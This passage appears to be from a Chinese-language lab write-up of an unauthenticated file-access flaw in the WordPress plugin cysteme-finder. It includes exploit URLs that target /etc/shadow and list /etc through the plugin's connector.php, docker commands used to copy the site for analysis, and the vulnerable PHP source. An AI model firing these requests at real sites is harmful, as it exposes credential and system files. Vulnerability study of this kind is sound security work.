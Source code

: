 ![image-20241105153531172](https://image.201068.xyz/assets/11.Wordpress/image-20241105153531172.png)

##### /etc/shadow

```bash
http://192.168.70.4:6082/wp-content/plugins/cysteme-finder/php/connector.php?wphome=/etc&&cmd=file&target=l1_c2hhZG93
&download=0
```

![image-20241105153728608](https://image.201068.xyz/assets/11.Wordpress/image-20241105153728608.png)

无权限

#### 下载文件 

```bash
docker ps -s
docker cp 2c320b056eaf:/var/www/html /root/
```

![image-20241105152025245](https://image.201068.xyz/assets/11.Wordpress/image-20241105152025245.png)

#### 代码分析

根据路径找到文件，发现并没有登录验证。

> wp-content\plugins\cysteme-finder\php\connector.php

```bash
/wp-content/plugins/cysteme-finder/php/connector.php?wphome=/etc&cmd=open&init=1&tree=1
```

![image-20241105152603288](https://image.201068.xyz/assets/11.Wordpress/image-20241105152603288.png)

```bash
<?php

$wphome = $_REQUEST['wphome'];
$wpurl = $_REQUEST['wpurl'];

error_reporting(0); // Set E_ALL for debuging

include_once dirname(__FILE__).DIRECTORY_SEPARATOR.'elFinderConnector.class.php';
include_once dirname(__FILE__).DIRECTORY_SEPARATOR.'elFinder.class.php';
include_once dirname(__FILE__).DIRECTORY_SEPARATOR.'elFinderVolumeDriver.class.php';
include_once dirname(__FILE__).DIRECTORY_SEPARATOR.'elFinderVolumeLocalFileSystem.class.php';

$opts = array('debug' => false);

$opts['roots'][] =
(
	array(
		'driver'        => 'LocalFileSystem',  
		'path'          => $wphome,
		'URL'           => $wpurl,
		'alias'         => "Fichiers du site",
        'quarantine'    => '.tmp'
	)
);
$connector = new elFinderConnector(new elFinder($opts));
$connector->run();
?>

```
